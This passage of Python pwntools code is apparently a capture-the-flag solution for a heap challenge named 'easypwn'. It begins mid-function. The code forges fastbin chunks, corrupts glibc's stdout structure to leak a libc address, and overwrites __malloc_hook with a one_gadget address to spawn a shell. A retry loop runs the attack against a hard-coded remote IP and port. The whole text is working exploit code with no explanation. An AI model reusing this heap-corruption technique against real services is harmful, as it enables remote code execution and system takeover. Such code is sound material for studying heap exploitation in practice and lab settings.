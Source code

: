 ```python
#	gdb.attach(p)

	delete(10)
	delete(6)
	edit(9,p64(0x1111111)*5+p64(0x71))
	edit(5,p64(0)+p64(0x71)+p16((2<<12)+((_IO_2_1_stdout_s-0x43) & 0xFFF))+'\n')
	add(0x60) #6
	add(0x60) #10
	add(0x60) #12
	edit(12,'\x00'*0x33 + p64(0x0FBAD1887) +p64(0)*3 + p8(0x88)+'\n')
        p.recv(6)
        libc_base = u64(p.recv(6).ljust(8,'\x00')) - libc.symbols['_IO_2_1_stdin_']
        print(hex(libc_base))
        malloc_hook = libc_base+libc.symbols['__malloc_hook']
	print(hex(malloc_hook))
	delete(10)
	edit(5,p64(0)+p64(0x71)+p64(malloc_hook-0x23)+'\n')
	add(0x60) #10
	add(0x60) #13

	one_gadget = libc_base+0xf02a4
	edit(13,'a'*19+p64(one_gadget)+'\n')
	print(hex(one_gadget))
	add(0x10)
#        gdb.attach(p)
        p.interactive()
	
i=0
#pwn()
while True:
	try:
		i+=1
		print(i)
		p=remote('39.101.184.181',10000)
#		p=process('./easypwn')
		pwn()
	except:
		p.close()
```



